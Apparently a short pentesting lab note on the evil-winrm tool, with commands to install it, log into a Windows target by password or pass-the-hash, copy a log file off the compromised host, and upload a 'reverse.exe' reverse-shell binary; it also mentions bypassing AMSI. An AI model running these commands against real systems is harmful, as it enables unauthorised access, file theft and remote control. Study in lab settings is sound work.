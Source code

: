 #### Steps
```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```
```bash - kali
git clone https://github.com/Hackplayers/evil-winrm.git && cd evil-winrm
```
Login with either password or Hash.
```bash - kali
ruby evil-winrm.rb -i $TARGET -u $USER -p '$PASSWORD'
```
```bash - kali
ruby evil-winrm.rb -i $TARGET -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```
Bypass AMSI, used to run PowerShell scripts.
#### Downloading files - ==MUST USE FULL PATHS==
```powershell - windows
download C:\Troubleshooting\powershell-logs.csv /home/kali/Desktop/PG/Compromised/powershell-log
```
#### Uploading files - ==MUST USE FULL PATHS==
```powershell - windows
upload /home/kali/Desktop/PG/Compromised/reverse.exe C:\Troubleshooting\reverse.exe
```
SEE ALSO:
[[3._EvilWinRM]]
